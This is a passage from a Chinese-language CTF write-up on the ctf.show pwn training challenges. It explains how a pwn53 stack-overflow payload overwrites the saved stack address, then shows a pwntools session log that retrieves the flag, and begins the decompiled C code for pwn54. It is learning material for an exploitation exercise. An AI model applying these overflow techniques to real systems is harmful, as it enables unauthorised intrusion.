 再将到栈底的地址给覆盖掉，而剩下需要填入的数据就是0x30-0x20的部分

(另外一种payload也是一样的，本质上都是填充实际为16字节的东西进去覆盖掉到栈底的所有地址)

2.因为有两次输入

所以需要先sendline

这里sendline的意义是自定义一个下一次read的长度(详见4，5)

这样就能拿到flag

```python
[x] Opening connection to pwn.challenge.ctf.show on port 28198
[x] Opening connection to pwn.challenge.ctf.show on port 28198: Trying 124.223.158.81
D:\python\pythonProject\pwn53.py:6: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  sh.sendline("1000")
[+] Opening connection to pwn.challenge.ctf.show on port 28198: Done
[*] Switching to interactive mode
    ▄▄▄▄   ▄▄▄▄▄▄▄▄  ▄▄▄▄▄▄▄▄            ▄▄                           
  ██▀▀▀▀█  ▀▀▀██▀▀▀  ██▀▀▀▀▀▀            ██                           
 ██▀          ██     ██        ▄▄█████▄  ██▄████▄   ▄████▄  ██      ██
 ██           ██     ███████   ██▄▄▄▄ ▀  ██▀   ██  ██▀  ▀██ ▀█  ██  █▀
 ██▄          ██     ██         ▀▀▀▀██▄  ██    ██  ██    ██  ██▄██▄██ 
  ██▄▄▄▄█     ██     ██        █▄▄▄▄▄██  ██    ██  ▀██▄▄██▀  ▀██  ██▀ 
    ▀▀▀▀      ▀▀     ▀▀         ▀▀▀▀▀▀   ▀▀    ▀▀    ▀▀▀▀     ▀▀  ▀▀  

* *************************************

   * Classify: CTFshow --- PWN --- 入门                              
     * Type  : Stack_Overflow                                          
       * Site  : https://ctf.show/                                       
       * Hint  : Do you know how Canary works?                           

* *************************************

How many bytes do you want to write to the buffer?

$ Where is the flag?
ctfshow{df00b40b-c8dd-4822-aed7-20b94cbee460}
```

(不会C不会python不会pwn的菜只能一点点把全部细节贴出来)

## pwn54

32位程序

分析主函数

```C
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s1[64]; // [esp+0h] [ebp-1A0h] BYREF
  char v5[256]; // [esp+40h] [ebp-160h] BYREF
  char s[64]; // [esp+140h] [ebp-60h] BYREF
  FILE *stream; // [esp+180h] [ebp-20h]
  char *v8; // [esp+184h] [ebp-1Ch]
  int *p_argc; // [esp+194h] [ebp-Ch]

  p_argc = &argc;
  setvbuf(stdout, 0, 2, 0);
  memset(s, 0, sizeof(s));
  memset(v5, 0, sizeof(v5));
  memset(s1, 0, sizeof(s1));
  puts("==========CTFshow-LOGIN==========");
  puts("Input your Username:");
```